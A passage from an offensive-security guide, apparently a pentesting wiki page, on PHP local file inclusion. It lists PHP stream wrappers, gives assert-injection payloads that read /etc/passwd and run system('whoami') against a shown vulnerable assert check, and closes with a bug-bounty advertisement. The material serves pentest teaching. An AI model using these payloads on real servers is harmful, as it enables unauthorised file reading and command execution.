 ### More protocols

Check more possible[ **protocols to include here**](https://www.php.net/manual/en/wrappers.php)**:**

* [php://memory and php://temp](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.memory) — Write in memory or in a temporary file (not sure how this can be useful in a file inclusion attack)
* [file://](https://www.php.net/manual/en/wrappers.file.php) — Accessing local filesystem
* [http://](https://www.php.net/manual/en/wrappers.http.php) — Accessing HTTP(s) URLs
* [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Accessing FTP(s) URLs
* [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
* [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern (It doesn't return nothing printable, so not really useful here)
* [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
* [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams (Not useful to read arbitrary files)

## LFI via PHP's 'assert'

If you encounter a difficult LFI that appears to be filtering traversal strings such as ".." and responding with something along the lines of "Hacking attempt" or "Nice try!", an 'assert' injection payload may work.

A payload like this:

```
' and die(show_source('/etc/passwd')) or '
```

will successfully exploit PHP code for a "file" parameter that looks like this:

```bash
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```

It's also possible to get RCE in a vulnerable "assert" statement using the system() function:

```
' and die(system("whoami")) or '
```

Be sure to URL-encode payloads before you send them.

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof is home to all crypto bug bounties.**

**Get rewarded without delays**\
HackenProof bounties launch only when their customers deposit the reward budget. You'll get the reward after the bug is verified.

**Get experience in web3 pentesting**\
Blockchain protocols and smart contracts are the new Internet! Master web3 security at its rising days.

**Become the web3 hacker legend**\
Gain reputation points with each verified bug and conquer the top of the weekly leaderboard.
